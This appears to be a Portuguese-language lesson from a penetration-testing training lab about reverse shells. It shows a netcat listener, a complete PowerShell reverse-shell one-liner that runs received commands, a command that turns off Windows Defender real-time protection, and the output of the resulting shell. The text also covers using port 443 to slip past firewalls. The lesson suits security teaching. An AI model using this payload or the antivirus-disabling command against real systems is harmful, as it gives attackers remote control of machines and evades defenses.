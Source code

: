 Com um `reverse shell`, a caixa de ataque terá um ouvinte em execução e o destino precisará iniciar a conexão.

#### Exemplo de shell reverso

![[Pasted image 20230704181326.png]]

Geralmente, usamos esse tipo de shell à medida que nos deparamos com sistemas vulneráveis, porque é provável que um administrador negligencie as conexões de saída, dando-nos uma melhor chance de não ser detectado. A última seção discutiu como os bind shells dependem das conexões de entrada permitidas pelo firewall no lado do servidor. Será muito mais difícil conseguir isso em um cenário do mundo real. Como visto na imagem acima, estamos iniciando um ouvinte para um shell reverso em nossa caixa de ataque e usando algum método ( exemplo: `Unrestricted File Upload`, `Command Injection`, etc .. ) para forçar o destino a iniciar uma conexão com nossa caixa de destino, significando efetivamente que nossa caixa de ataque se torna o servidor e o destino se torna o cliente.

Nem sempre precisamos reinventar a roda quando se trata de cargas úteis ( comandos e código ) que pretendemos usar ao tentar estabelecer um shell reverso com um alvo. Existem ferramentas úteis que os veteranos da infosec reuniram para nos ajudar. [Folha de dicas reversa da Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) é um recurso fantástico que contém uma lista de diferentes comandos, códigos e até geradores de shell reverso automatizados que podemos usar ao praticar ou em um engate real. Devemos estar cientes de que muitos administradores estão cientes dos repositórios públicos e dos recursos de código aberto que os testadores de penetração costumam usar. Eles podem fazer referência a esses repos como parte de suas considerações principais sobre o que esperar de um ataque e ajustar seus controles de segurança de acordo. Em alguns casos, podemos precisar personalizar um pouco nossos ataques.

Vamos trabalhar com isso para entender melhor esses conceitos.

## Hands-on com um shell reverso simples no Windows

Com esse passo, estabeleceremos um shell reverso simples usando algum código PowerShell em um destino do Windows. Vamos começar o alvo e começar.

Podemos iniciar um ouvinte Netcat em nossa caixa de ataque à medida que o alvo aparece.

#### Servidor (`attack box`)

```shell-session
casluxd@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

Desta vez, com o nosso ouvinte, estamos vinculando-o a um [porta comum](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-ports.html) (`443`), essa porta geralmente é para conexões `HTTPS`. Podemos querer usar portas comuns como essa porque, quando iniciamos a conexão com nosso ouvinte, queremos garantir que ele não seja bloqueado saindo pelo firewall do sistema operacional e no nível da rede. Seria raro ver qualquer equipe de segurança bloqueando a saída 443, já que muitos aplicativos e organizações dependem do HTTPS para acessar vários sites durante o dia de trabalho. Dito isto, um firewall capaz de inspeção profunda de pacotes e visibilidade da camada 7 pode ser capaz de detectar e & pare um shell reverso saindo de uma porta comum porque está examinando o conteúdo dos pacotes de rede, não apenas o endereço IP e a porta. A evasão detalhada do firewall está fora do escopo deste módulo, portanto, tocaremos brevemente nas técnicas de detecção e evasão em todo o módulo, bem como na seção dedicada no final.

Depois que o destino do Windows aparecer, vamos nos conectar usando o RDP.

O Netcat pode ser usado para iniciar o shell reverso no lado do Windows, mas devemos estar atentos aos aplicativos que já estão presentes no sistema. O Netcat não é nativo dos sistemas Windows, portanto, pode não ser confiável contar com o uso como nossa ferramenta no lado do Windows. Veremos em uma seção posterior que, para usar o Netcat no Windows, precisamos transferir um binário do Netcat para um destino, o que pode ser complicado quando não temos recursos de upload de arquivos desde o início. Dito isto, é ideal usar todas as ferramentas nativas ( que vivem da terra ) para o alvo ao qual estamos tentando obter acesso.

`What applications and shell languages are hosted on the target?`

Esta é uma excelente pergunta a qualquer momento que estamos tentando estabelecer um shell reverso. Vamos usar o prompt de comando e o PowerShell para estabelecer esse shell reverso simples. Podemos usar um forro de shell reverso PowerShell padrão para ilustrar esse ponto.

No destino do Windows, abra um prompt de comando e copie e cole este comando:

#### Alvo do cliente
```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

`Nota: Se estivermos usando o Pwnbox, lembre-se de que alguns navegadores não funcionam tão perfeitamente ao usar o recurso Área de transferência para colar um comando diretamente na CLI de um destino. Nesses casos, podemos colar no Bloco de Notas no destino e copiar e colar de dentro do destino.`

Por favor, dê uma olhada no comando e considere o que precisamos mudar para que possamos estabelecer um shell reverso com nossa caixa de ataque. Este código PowerShell também pode ser chamado `shell code` ou nossa `payload`. Entregar essa carga útil no sistema Windows foi bastante direto, considerando que temos controle completo do destino para fins de demonstração. À medida que este módulo avança, perceberemos a dificuldade de aumentar a maneira como entregamos a carga útil nas metas.

`What happened when we hit enter in command prompt?`

```cmd-session
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

O `Windows Defender antivirus` (O software `AV` ) interrompeu a execução do código. Isso está funcionando exatamente como pretendido e de um perspectiva `defensiva` , isso é uma `win`. Do ponto de vista ofensivo, existem alguns obstáculos a serem superados se o AV estiver ativado em um sistema com o qual estamos tentando nos conectar. Para nossos propósitos, desejaremos desativar o antivírus através do `Virus & threat protection settings` ou usando este comando em um console administrativo do PowerShell (clique com o botão direito do mouse, execute como admin):

#### Desativar AV

```powershell-session
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

Depois que o AV estiver desativado, tente executar o código novamente.

#### Caixa de ataque do servidor

```shell-session
casluxd@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

De volta à nossa caixa de ataque, devemos notar que estabelecemos com sucesso uma concha reversa. Podemos ver isso pela alteração no prompt que começa com `PS` e nossa capacidade de interagir com o sistema operacional e o sistema de arquivos. Tente executar alguns comandos padrão do Windows para praticar um pouco.

